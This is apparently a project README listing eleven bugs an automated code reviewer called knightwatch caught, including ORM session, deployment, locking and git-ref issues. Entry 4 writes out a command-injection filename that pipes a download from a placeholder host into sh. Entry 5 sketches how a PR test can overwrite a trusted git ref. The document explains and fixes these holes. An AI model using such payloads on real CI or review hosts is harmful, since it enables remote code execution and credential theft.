



# Review Examples

A small gallery of reviews where knightwatch caught something genuinely non-obvious — the kind of failure mode a careful human reader would have shipped.

Each entry links to the original review comment, embeds a screenshot of what the bot posted, and explains why the catch matters. Ordered from most to least impressive. The first three are real production catches in [`cncorp/plow`](https://github.com/cncorp/plow) where the author (`@plonkus`) accepted and shipped the fix; the rest are catches the bot made on its own repo.

---

## 1. `connector_used` middleware silently drops events on real auth routes

**Review:** [cncorp/plow#544 — DetachedInstance on `user.channels`](https://github.com/cncorp/plow/pull/544#issuecomment-4340939339) · *fix confirmed in [follow-up review](https://github.com/cncorp/plow/pull/544#issuecomment-4345823886)*

A new PostHog `connector_used` event passes the test suite but would silently fail in production. The bot traced the bug across five sources:

- `main.py` — middleware runs *after* `call_next` returns, so the request-scoped SQLAlchemy session is already closed
- `auth.py` — `lookup_session()` only preloads the `user` row, not `user.channels`
- `analytics.py` — the `$set` payload then dereferences `user.channels`, triggering `DetachedInstanceError`
- `connectors/gmail/calendar_router.py` — the live Calendar route never triggers preload elsewhere
- `test_connector_used_middleware.py` — the existing test masks the bug because it injects a synthetic `request.state.auth_user` with channels prepopulated

Plonkus fixed it via a `lookup_session` preload + a real-auth e2e test in `test_auth.py`; the next review confirmed *"the detached-session `connector_used` failure is fixed."*

Why it tops the list: simulating ASGI middleware lifecycle + ORM session scope + payload dereference + route preload semantics + test fixture shape — five layers, none of them visible in any single file, and the test suite actively hides the bug.

---

## 2. IAM rollout would crash the API at startup via Alembic

**Review:** [cncorp/plow#487 — Alembic bypasses the IAM hook](https://github.com/cncorp/plow/pull/487#issuecomment-4322608935) · *fix confirmed in [follow-up review](https://github.com/cncorp/plow/pull/487#issuecomment-4331628884)*

The PR wires `DB_IAM_AUTH=true` into `db/session.py`'s async engine — but the bot caught that the rollout would actually take prod down. The container's `start.sh` runs `alembic upgrade head` *before* Uvicorn, and `alembic/env.py` builds a plain `create_engine(get_url())` without the IAM hook (which only lives in `build_async_engine`). Combined with `terraform/locals.tf`/`ecs.tf` removing `DB_PASSWORD`, the migration step would crash trying passwordless auth as `plow_app` and the API would never boot.

Plonkus fixed by reusing `get_sync_connection()` from Alembic. Follow-up review: *"Reusing `get_sync_connection(...)` from Alembic is the right seam: the migration path and runtime path now obtain credentials the same way."*

Why impressive: the bug is invisible from any single file — the deploy mechanic (Terraform env + `start.sh` ordering) is what makes the otherwise-fine async-only hook a production-down change. Predicting a rollout-time outage from cross-stack evidence (shell + Terraform + Python entry points + the location of the IAM hook) is genuinely senior-level review.

---

## 3. VM-loss probe vs plowd's canonical reader disagree on stale ports

**Review:** [cncorp/plow#552 — Phoenix probe reads stale port as live](https://github.com/cncorp/plow/pull/552#issuecomment-4349574160) · *fix shipped in commit `4ebe3098`, [confirmed by plonkus](https://github.com/cncorp/plow/pull/552#issuecomment-4354093632)*

Phoenix's Swift VM-loss probe in `DaemonClient.swift` reads the system container's persisted `port` as evidence the VM is alive. But plowd's canonical reader in `plowd/container_registry.py` only treats the port as live when the container is `enabled` *AND* `running`. Because `startContainer()` writes `.starting` *before* the guest listens, and `stopContainer()` writes `.stopped` without clearing the port, `fetchStatus()` would see a stale port for 25 seconds and incorrectly restart the runtime as "VM instance lost."

Plonkus fixed by routing the probe through `ContainerRegistry` instead of `ServiceURLs.gatewayPort()`: *"the VM-loss probe in `DaemonClient` no longer calls `ServiceURLs.gatewayPort()` — it now looks up the system container's allocated port via `ContainerRegistry`."*

Why impressive: the bug only emerges from the *interaction* between two languages' state-machine interpretations of the same on-disk JSON, plus the precise timing of when status-write side effects happen relative to guest readiness. Cross-stack reasoning of this shape is rare even from senior reviewers.

---

## 4. Shell injection via `eval` of PR-controlled filenames

**Review:** [knightwatch-reviewer#25 — `dead-code-eval`](https://github.com/srosro/knightwatch-reviewer/pull/25#issuecomment-4350469713)

The new dead-code specialist runs detection commands assembled from filenames inside the PR's diff, then passes the assembled string through `eval` in `DEAD_CODE_CMDS`. The bot caught that a filename like `'; curl evil/x | sh; '` would execute on the reviewer's host with its `gh` credentials and local repo access.

Why impressive: this is direct RCE on the reviewer's host with full GitHub auth. The catch is non-obvious because the *outer* command (`grep`, `find`) looks safe — the injection seam is in the substring being interpolated, which only matters once you trace the data path back to PR-controlled filenames.

---

## 5. TOCTOU rewriting `origin/<default_branch>` mid-review

**Review:** [knightwatch-reviewer#29 — `.knightwatch` config TOCTOU](https://github.com/srosro/knightwatch-reviewer/pull/29#issuecomment-4357168423)

The reviewer reads policy files (`.knightwatch/siblings`, `.knightwatch/dead-code.sh`, `.knightwatch/strict-typing.sh`) from `origin/<default_branch>` to get the trusted, base-branch-owned review configuration. But the worker also runs the PR's own `just test` *before* those reads — and a PR's test could call `git update-ref refs/remotes/origin/main <attacker-sha>` to silently overwrite that ref locally.

Multi-step trust-boundary bypass: timing window + git capability + assumed-immutable ref all have to land at once for a reviewer to see the bug. The PR effectively substitutes its own review policy while still appearing base-branch-owned.

---

## 6. `PrivateTmp=yes` defeating `/tmp` cross-tick locks

**Review:** [knightwatch-reviewer#18 — detached workers + PrivateTmp](https://github.com/srosro/knightwatch-reviewer/pull/18#issuecomment-4346528399)

The systemd unit uses `PrivateTmp=yes`, and detached workers were holding their per-PR locks under `/tmp/pr-review-locks/<pr>`. The bot caught that `PrivateTmp` gives every `systemctl start` a fresh per-execution `/tmp` namespace — so the lockfiles from tick N are invisible to tick N+1.

Result: two workers can launch concurrently for the same PR and `rm -rf` each other's checkout mid-review. The catch hinges on knowing exactly how systemd's tmpfs namespacing interacts with detached processes — the kind of detail almost everyone reading this code would assume "lockfile in `/tmp` = cross-process exclusion" and move on.

---

## 7. `git clone --shared` silently losing the base ref

**Review:** [knightwatch-reviewer#36 — non-default-base PRs lose `origin/<base>`](https://github.com/srosro/knightwatch-reviewer/pull/36#issuecomment-4359749179)

For non-default-base PRs (release branches, feature bases) the worker does `git fetch origin <BASE_REF>` into the canonical clone, then `git clone --shared` into the per-PR workdir. The bot caught that `--shared` exposes canonical's *local* branches as `origin/*` but does not reliably copy `refs/remotes/origin/<BASE_REF>`.

So in the per-PR workdir, `origin/<BASE_REF>` is silently absent, the diff snaps to whatever local default exists, and reviews use the wrong base — but only on PRs whose base is not the default branch. A failure class invisible to default-branch testing, plus an interaction with `clone --shared` semantics most people misremember.

---

## 8. Cross-repo search authorization leak

**Review:** [knightwatch-reviewer#25 — `cross-repo-search-trust`](https://github.com/srosro/knightwatch-reviewer/pull/25#issuecomment-4350469713)

A separate finding inside the same review body as #4: the dead-code specialist greps across canonical's local clones, which share an object database with sibling repos. Authorization is checked only against the *reviewed* repo, not against each sibling whose lines might be returned.

A collaborator with access to repo A could cause private sibling-repo B's paths and lines to be quoted into A's review. Classic confused-deputy across what looks like one trust boundary but is actually two.

---

## 9. Aborted aggregator outputs staged as prior reviews

**Review:** [knightwatch-reviewer#15 — `prior-reviews.md` from aborted runs](https://github.com/srosro/knightwatch-reviewer/pull/15#issuecomment-4344887837)

The orchestrator stages the aggregator's output as `prior-reviews.md` so the next round's bug-class-recurrence pass can compare against it. The bot caught that this staging happened even when the aggregator exited non-zero but left non-empty partial output.

Result: a truncated, half-rendered aggregator dump becomes the canonical "previous review" — fabricating recurrence evidence from reviews the author never saw. The subtle failure mode is that partial data is *worse* than no data, because it actively misleads the next pass instead of forcing it to start fresh.

---

## 10. Substring-triggered `/srosro-approve` approvals

**Review:** [knightwatch-reviewer#14 — `is_approve_request` substring match](https://github.com/srosro/knightwatch-reviewer/pull/14#issuecomment-4344404933)

The approval poller checked comment bodies with `grep -qiF '/srosro-approve'` and treated any match as an approval command. The bot caught that a trusted collaborator writing "don't use `/srosro-approve` yet" or "we should add `/srosro-approve` later" would trigger a real `gh pr review --approve` side effect.

A substring-vs-command-parse mismatch with real production blast radius — a single misquoted phrase in a normal-looking comment would auto-approve a PR.

---

## 11. Merge-from-main hunks miscredited as branch-authored

**Review:** [knightwatch-reviewer#28 — review-scope diff includes upstream hunks](https://github.com/srosro/knightwatch-reviewer/pull/28#issuecomment-4356784178)

The review-scope diff (`git diff base..head`) includes hunks the PR author never touched if they merged main and the merge brought along upstream changes to the same files. Those hunks were getting attributed to the PR author in findings.

A fairness regression: the bot would blame an author for code they only inherited via a merge. Real, but the easiest of the eleven to spot once you sit down and think carefully about diff-base semantics — which is why it lands at the bottom of this list.
